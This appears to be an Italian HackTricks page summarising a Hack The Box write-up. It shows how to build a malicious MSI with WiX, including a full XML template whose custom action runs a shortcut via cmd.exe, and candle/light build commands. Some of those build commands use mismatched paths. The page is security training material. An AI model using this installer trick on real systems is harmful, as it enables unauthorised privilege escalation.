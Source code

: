 {{#include ../../banners/hacktricks-training.md}}

# Creazione di MSI Maliziosi e Ottenimento di Root

La creazione dell'installer MSI sarà effettuata utilizzando wixtools, in particolare [wixtools](http://wixtoolset.org) sarà utilizzato. Vale la pena menzionare che sono stati tentati costruttori MSI alternativi, ma non hanno avuto successo in questo caso particolare.

Per una comprensione completa degli esempi di utilizzo di wix MSI, è consigliabile consultare [questa pagina](https://www.codeproject.com/Tips/105638/A-quick-introduction-Create-an-MSI-installer-with). Qui puoi trovare vari esempi che dimostrano l'uso di wix MSI.

L'obiettivo è generare un MSI che eseguirà il file lnk. Per raggiungere questo obiettivo, potrebbe essere impiegato il seguente codice XML ([xml da qui](https://0xrick.github.io/hack-the-box/ethereal/#Creating-Malicious-msi-and-getting-root)):
```markup
<?xml version="1.0"?>
<Wix xmlns="http://schemas.microsoft.com/wix/2006/wi">
<Product Id="*" UpgradeCode="12345678-1234-1234-1234-111111111111" Name="Example Product Name"
Version="0.0.1" Manufacturer="@_xpn_" Language="1033">
<Package InstallerVersion="200" Compressed="yes" Comments="Windows Installer Package"/>
<Media Id="1" Cabinet="product.cab" EmbedCab="yes"/>
<Directory Id="TARGETDIR" Name="SourceDir">
<Directory Id="ProgramFilesFolder">
<Directory Id="INSTALLLOCATION" Name="Example">
<Component Id="ApplicationFiles" Guid="12345678-1234-1234-1234-222222222222">
</Component>
</Directory>
</Directory>
</Directory>
<Feature Id="DefaultFeature" Level="1">
<ComponentRef Id="ApplicationFiles"/>
</Feature>
<Property Id="cmdline">cmd.exe /C "c:\users\public\desktop\shortcuts\rick.lnk"</Property>
<CustomAction Id="Stage1" Execute="deferred" Directory="TARGETDIR" ExeCommand='[cmdline]' Return="ignore"
Impersonate="yes"/>
<CustomAction Id="Stage2" Execute="deferred" Script="vbscript" Return="check">
fail_here
</CustomAction>
<InstallExecuteSequence>
<Custom Action="Stage1" After="InstallInitialize"></Custom>
<Custom Action="Stage2" Before="InstallFiles"></Custom>
</InstallExecuteSequence>
</Product>
</Wix>
```
È importante notare che l'elemento Package contiene attributi come InstallerVersion e Compressed, che specificano la versione dell'installer e indicano se il pacchetto è compresso o meno, rispettivamente.

Il processo di creazione prevede l'utilizzo di candle.exe, uno strumento di wixtools, per generare un wixobject da msi.xml. Il seguente comando deve essere eseguito:
```
candle.exe -out C:\tem\wix C:\tmp\Ethereal\msi.xml
```
Inoltre, vale la pena menzionare che un'immagine è fornita nel post, che illustra il comando e il suo output. Puoi fare riferimento ad essa per una guida visiva.

Inoltre, light.exe, un altro strumento di wixtools, sarà utilizzato per creare il file MSI dall'wixobject. Il comando da eseguire è il seguente:
```
light.exe -out C:\tm\Ethereal\rick.msi C:\tmp\wix
```
Simile al comando precedente, un'immagine è inclusa nel post che illustra il comando e il suo output.

Si prega di notare che, sebbene questo riepilogo miri a fornire informazioni preziose, si consiglia di fare riferimento al post originale per dettagli più completi e istruzioni accurate.

## Riferimenti

- [https://0xrick.github.io/hack-the-box/ethereal/#Creating-Malicious-msi-and-getting-root](https://0xrick.github.io/hack-the-box/ethereal/#Creating-Malicious-msi-and-getting-root)
- [https://www.codeproject.com/Tips/105638/A-quick-introduction-Create-an-MSI-installer-with](https://www.codeproject.com/Tips/105638/A-quick-introduction-Create-an-MSI-installer-with)
[wixtools](http://wixtoolset.org)

{{#include ../../banners/hacktricks-training.md}}
